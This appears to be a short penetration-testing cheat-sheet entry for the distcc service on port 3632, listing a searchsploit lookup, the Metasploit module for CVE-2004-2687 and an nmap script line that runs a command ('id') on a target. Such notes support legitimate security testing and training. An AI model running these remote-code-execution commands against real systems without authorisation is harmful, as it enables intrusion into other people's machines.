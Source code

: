 # 3632 (distcc)

## Searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

## Exploitation Checks

Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
```

